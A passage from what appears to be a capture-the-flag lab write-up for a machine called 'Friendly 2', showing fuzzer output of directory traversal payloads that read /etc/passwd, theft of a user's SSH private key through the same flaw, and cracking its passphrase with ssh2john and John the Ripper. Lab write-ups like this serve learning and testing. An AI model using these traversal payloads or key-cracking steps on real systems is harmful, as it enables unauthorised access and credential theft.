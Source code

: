 ```shell
../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 21ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 21ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 21ms]
../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 20ms]
../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 19ms]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 12ms]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 533ms]
:: Progress: [929/929] :: Job [1/1] :: 66 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
## Explotation

We see that the user **gh0st** exists so what we can do now is try to get the id_rsa from gh0st.

![](/assets/img/Anexos/Máquina%20Friendly%202-1744360615342.png)

We got it
![](/assets/img/Anexos/Máquina%20Friendly%202-1744360646487.png)

But apparently the id_rsa needs a passphrase
```shell
❯ ls
󰷖 id_rsa
❯ chmod 600 id_rsa
❯ ssh gh0st@192.168.1.87 -i id_rsa
The authenticity of host '192.168.1.87 (192.168.1.87)' can't be established.
ED25519 key fingerprint is SHA256:YDW5zhbCol/1L6a3swXHsFDV6D3tUVbC09Ch+bxLR08.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.87' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

We can crack it using `ssh2john`
```shell
❯ ssh2john id_rsa > hash
❯ ls
 hash  󰷖 id_rsa
```

And we got the passphrase:
```shell
john -w=/usr/share/wordlists/rockyou.txt hash
Created directory: /root/.john/opencl
[ssh-opencl] cipher value of 6 is not yet supported with OpenCL!
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 3DES/AES 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 12 OpenMP threads
Note: Passwords longer than 10 [worst case UTF-8] to 32 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
celtic           (id_rsa)     
1g 0:00:00:02 DONE (2025-04-11 18:25) 0.3968g/s 114.3p/s 114.3c/s 114.3C/s alyssa..brenda
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
